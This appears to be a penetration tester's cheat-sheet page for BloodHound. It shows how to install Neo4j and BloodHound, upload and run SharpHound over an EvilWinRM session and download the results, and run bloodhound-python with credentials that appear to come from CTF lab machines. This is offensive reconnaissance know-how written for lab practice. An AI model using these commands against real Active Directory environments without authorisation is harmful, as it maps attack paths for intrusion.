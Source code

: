 https://github.com/SpecterOps/BloodHound

Let’s have the dog sniff things out because automated enumeration is cool

The tools used are - [BloodHound](https://github.com/BloodHoundAD/BloodHound/releases/), [SharpHound.exe](https://github.com/BloodHoundAD/BloodHound/tree/master/Collectors) or [SharpHound.ps1](https://www.noobsec.net/ad-cheatsheet/)

> BloodHound (Javascript webapp, compiled with Electron, uses Neo4j as graph DBMS) is an awesome tool that allows mapping of relationships within Active Directory environments. It mostly uses Windows API functions and LDAP namespace functions to collect data from domain controllers and domain-joined Windows systems.
```bash
# Install Dependancies
sudo apt-get install openjdk-11-jdk
sudo apt install -y neo4j
sudo neo4j start
sudo /usr/bin/neo4j console # For any debugging

# Change password to neo5j
http://localhost:7474/browser/

unzip BloodHound-linux-x64.zip
./BloodHound-linux-x64/BloodHound # may need --no-sandbox
```
## Collection
### Sharphound
https://github.com/BloodHoundAD/BloodHound/tree/master/Collectors

> SharpHound (sources, builds) is designed targeting .Net 4.5. It can be used as a compiled executable.
> 
> It must be run from the context of a domain user, either directly through a logon or through another method such as runas (runas /netonly /user:$DOMAIN\$USER) (see Impersonation). Alternatively, SharpHound can be used with the LdapUsername and LdapPassword flags for that matter.
```powershell
# EvilWinRM
upload SharpHound.exe

# Leverage LDAPS
./SharpHound.exe --SecureLdap

SharpHound.exe --collectionmethods All

download ***.zip
```

### bloodhound.py
https://github.com/fox-it/BloodHound.py

> From UNIX-like system, a non-official (but very effective nonetheless) Python version can be used.
> 
> BloodHound.py is a Python ingestor for BloodHound.
> 
> This ingestor is not as powerful as the C# one. It mostly misses GPO collection methods **but** a good news is that it can do pass-the-hash. It becomes really useful when compromising a domain account's NT hash.
```bash
bloodhound-python -u florence.ramirez -p 'uxLmt*udNc6t3HrF' -ns 10.10.11.24 -c all -d ghost.htb --zip

bloodhound-python -u 'l.clark' -p 'WAT?watismypass!' -d 'infiltrator.htb' -gc 'dc01.infiltrator.htb' -ns 10.129.8.232 -c all --zip

bloodhound.py --zip -c All -d $DOMAIN -u $USERNAME -p $PASSWORD -dc $DOMAIN_CONTROLLER
```